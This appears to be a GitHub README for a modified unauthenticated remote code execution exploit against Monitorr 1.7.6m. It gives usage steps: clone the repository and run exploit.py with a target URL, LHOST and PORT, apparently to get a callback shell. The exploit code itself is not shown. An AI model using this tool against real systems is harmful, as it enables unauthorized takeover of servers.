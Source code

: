 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Usage
``git clone https://github.com/valentinodev/monitorr_1.7.6m_remote_code_execution_modified.git``

``cd monitorr_1.7.6m_remote_code_execution_modified``

``python exploit.py https://domain.com LHOST PORT``


